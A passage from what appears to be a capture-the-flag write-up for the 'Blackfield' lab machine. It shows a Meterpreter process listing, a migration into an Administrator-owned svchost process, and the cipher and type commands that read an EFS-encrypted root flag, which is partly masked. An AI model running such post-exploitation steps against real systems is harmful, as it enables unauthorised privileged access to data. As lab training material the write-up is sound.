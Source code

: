      PID   PPID  Name                                       Arch  Session  User                          Path
     ---   ----  ----                                       ----  -------  ----                          ----
     0     0     [System Process]                                                                         
     4     0     System                                     x64   0                                      
     88    4     Registry                                   x64   0                                      
     280   4     smss.exe                                   x64   0                                      
     328   528   dwm.exe                                    x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
    ...[snip]...
     5848  604   svchost.exe                                x64   1        BLACKFIELD\Administrator      C:\Windows\System32\svchost.exe
    ...[snip]...

    meterpreter > migrate 5848
    [*] Migrating from 4504 to 5848...
    [*] Migration completed successfully.



Now in a shell, and `cipher` works and I can read the flag:



    C:\Users\Administrator\Desktop>cipher /c root.txt

     Listing C:\Users\Administrator\Desktop\
     New files added to this directory will not be encrypted.

    E root.txt
      Compatibility Level:
        Windows XP/Server 2003

      Users who can decrypt:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 

      Recovery Certificates:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 

      Key Information:
        Algorithm: AES
        Key Length: 256
        Key Entropy: 256
        
    C:\Users\Administrator\Desktop>type root.txt
    4375a629************************







